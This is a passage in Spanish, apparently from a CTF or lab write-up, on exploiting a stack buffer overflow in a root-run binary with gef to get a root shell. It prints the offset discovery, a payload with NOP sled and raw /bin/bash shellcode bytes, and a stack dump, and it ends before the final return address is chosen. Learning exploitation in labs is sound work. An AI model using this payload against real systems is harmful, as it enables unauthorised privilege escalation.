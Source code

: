 Genero un *segmentation fault* y gef me facilita la informacion del registro *$eip*

```bash
gef➤  pattern search $eip
[+] Searching for '64616166'/'66616164' with period=4
[+] Found at offset 512 (little-endian search) likely
gef➤  r $(python2 -c 'print "\x41" * 512 + "\x42" * 4 + "\x43" * 100')

<--SNIP-->
$eip   : 0x42424242 ("BBBB"?)
<--SNIP-->

```

Con *pattern search $eip* obtengo el tamaño del buffer, en este caso 512 bytes.

Con python2 doy como parametro una cadena de texto con 512 "A" y 4 "B" al final para ver si el $eip es controlable y toma el valor "0x42424242"

## Injectiar codigo maquina

Como en la maquina victima el binario se puede ejecutar como el usuario **root** puedo ejecutar el comando */bin/bash -i* con el buffer overflow para obtener una shell como root

Busco un Sellcode que ejecute */bin/bash -i* para guardarlo en la stack y ejecutarlo al apuntarlo con el *$eip*

https://shell-storm.org/shellcode/files/shellcode-606.html

Este shellcode ocupa 33 bytes y le agrego 100 bytes de instrucciones *nop* antes del shellcode para facilitar el apuntado del mismo

```bash
gef➤  r $(python2 -c 'print"\x41" * (512 - 100 - 33) + "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" + "\x42" * 4')
```

Busco en la stack una direccion valida para poner el el IP y ejecutar mi codigo malicioso

```bash
gef➤  x/2000wx $esp
0xffffd1a0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd1b0:	0x41414141	0x41414141	0x90909090	0x90909090
0xffffd1c0:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd1d0:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd1e0:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd1f0:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd200:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd210:	0x90909090	0x90909090	0x90909090	0x99580b6a
0xffffd220:	0x2d686652	0x52e18970	0x2f68686a	0x68736162
0xffffd230:	0x6e69622f	0x5152e389	0xcde18953	0x42424280
0xffffd240:	0x53550042	0x6f3d5245	0x696e6b61	0x776f726d
0xffffd250:	0x5f434c00	0x454d4954	0x5f73653d	0x552e5241
0xffffd260:	0x382d4654	0x47445800	0x4145535f	0x65733d54
```
